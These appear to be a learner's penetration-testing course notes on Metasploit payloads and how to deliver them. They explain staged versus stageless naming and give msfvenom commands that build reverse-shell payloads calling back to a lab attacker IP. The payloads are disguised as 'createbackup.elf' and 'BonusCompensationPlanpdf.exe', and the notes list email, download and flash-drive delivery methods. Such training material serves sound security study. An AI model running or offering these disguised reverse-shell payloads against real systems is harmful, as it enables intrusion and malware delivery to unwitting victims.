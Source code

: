 **IMPORTANT**
- we can notice from the name of the payload which is staged and which is stageless
- for example `windows/meterpreter/reverse_tcp` and `windows/meterpreter_reverse_tcp`
- notice that the first one has more slashes than the second
- the slashes after the OS or architecture often represent the stages of the payload
- so the first one is staged and the second one is stageless
### Building a Stageless Payload
```shell-session
TonyS23@htb[/htb]$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```
- first we call `msfvenom`
- then we specify the payload after `-p`
- then we specify the payload `linux/x64/shell_reverse_tcp`
- we set the listening host and port `LHOST=10.10.14.113 LPORT=443`
- we specify the file format `-f elf`
- then we tell the tool where to output the payload `> createbackup.elf`
### Executing a Stageless Payload
1) First we need a delivery method:
- Email message with the file attached.
- Download link on a website.
- Combined with a Metasploit exploit module (this would likely require us to already be on the internal network).
- Via flash drive as part of an onsite penetration test.
2) Once the file is on the system, it needs to be executed.
3) After it's executed, we need to listen for it with netcat for example.
### Building a simple Stageless Payload for a Windows system
```shell-session
TonyS23@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```
### Executing a Simple Stageless Payload On a Windows System
- without any encoding or encryption, this payload WILL get detected by the Windows Defender AV
## Infiltrating Windows
- a list of common vulnerabilities:
